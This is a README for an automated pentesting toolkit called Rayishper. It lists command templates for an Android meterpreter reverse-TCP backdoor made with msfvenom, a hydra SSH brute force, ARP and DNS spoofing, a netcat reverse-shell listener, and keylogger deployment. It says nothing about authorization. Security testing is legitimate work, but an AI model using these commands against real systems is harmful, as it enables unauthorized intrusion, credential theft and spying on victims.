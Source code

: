 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone [https://github.com/your-repo/rayishper.git] (https://github.com/your-repo/rayishper.git)
cd rayishper

## Make the script executable:
chmod +x rayishper.py

## Install the required dependencies:
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit-Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John-the-Ripper: For password cracking.
Social-Engineering-Toolkit-(SET): For social engineering attacks.

## Usage
## To run Rayishper:
[./rayishper.py](./rayishper.py)

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py

## Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}

## Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}

## DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof

## License
This project is open-source and available under the MIT License.
